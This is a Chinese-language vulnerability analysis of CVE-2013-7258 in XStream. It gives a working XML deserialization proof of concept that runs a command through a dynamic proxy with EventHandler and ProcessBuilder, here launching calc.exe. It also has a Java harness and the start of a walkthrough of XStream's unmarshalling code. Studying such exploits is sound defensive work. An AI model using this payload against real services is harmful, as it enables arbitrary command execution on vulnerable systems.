 ## 5\. CVE-2013-7258

**影响版本**：1.4.x-1.4.6 及 1.4.10  
**测试环境**：XStream1.4.5 JDK1.8\_66  
**复现**：  
POC

```plain
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>cmd</string>
                    <string>/C</string>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

测试文件：里面的 XML 为上面的 POC

```plain
package Xstream;

import com.thoughtworks.xstream.XStream;

public class CVE20137258 {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml = "";
        xStream.fromXML(xml);
    }
}
```

**分析**：  
根据前面的 fromXML 的流程，单步执行至 TreeUnmarshaller 的 start 函数

```plain
public Object start(DataHolder dataHolder) {
    this.dataHolder = dataHolder;
    // 根据 XML 的根标签获取对应的 class
    Class type = HierarchicalStreams.readClassType(this.reader, this.mapper);
    // 将对应的 class 转换成 Java 对象
    Object result = this.convertAnother((Object)null, type);
    Iterator validations = this.validationList.iterator();

    while(validations.hasNext()) {
        Runnable runnable = (Runnable)validations.next();
        runnable.run();
    }

    return result;
}
```
